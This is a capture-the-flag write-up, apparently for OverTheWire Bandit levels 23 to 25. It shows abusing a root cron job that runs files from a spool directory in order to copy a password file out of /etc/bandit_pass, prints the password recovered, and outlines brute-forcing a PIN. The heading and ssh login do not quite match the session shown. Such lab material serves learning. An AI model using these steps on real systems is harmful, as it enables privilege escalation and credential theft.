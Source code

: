 ```sh
-rw-r--r--   1 root root  122 Sep  1 06:30 cronjob_bandit23
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit24
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit25_root
-rw-r--r--   1 root root  201 Jan  8  2022 e2scrub_all
-rwx------   1 root root   52 Sep  1 06:30 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root  396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/khafagy
bandit23@bandit:~$ chmod 777 /tmp/khafagy
bandit23@bandit:~$ cd  /tmp/khafagy
bandit23@bandit:~$ nano pass24.sh   
#!/bin/sh
#cat /etc/bandit_pass/bandit24 > /tmp/khafagy/pass24file

bandit23@bandit:/tmp/khafagy$ chmod 777 pass24.sh
bandit23@bandit:/tmp/khafagy$ cp pass24.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/khafagy$ cat pass24file 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```


# Bandit Leve 23 → Level 24 : #
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called **brute-forcing**.
```sh
$ ssh bandit23@bandit.labs.overthewire.org -p 2220

bandit24@bandit:~$ mkdir /tmp/pass25
bandit24@bandit:~$ cd /tmp/pass25
bandit24@bandit:/tmp/pass25$ nano sript.sh
#but bruteforce script
bandit24@bandit:/tmp/pass25$ chmod 777 sript.sh
bandit24@bandit:/tmp/pass25$ ./sript.sh
bandit24@bandit:/tmp/pass25$ ls
brute.txt  result.txt  sript.sh
bandit24@bandit:/tmp/pass25$ sort result.txt | grep  -v "Wrong"

Correct!
```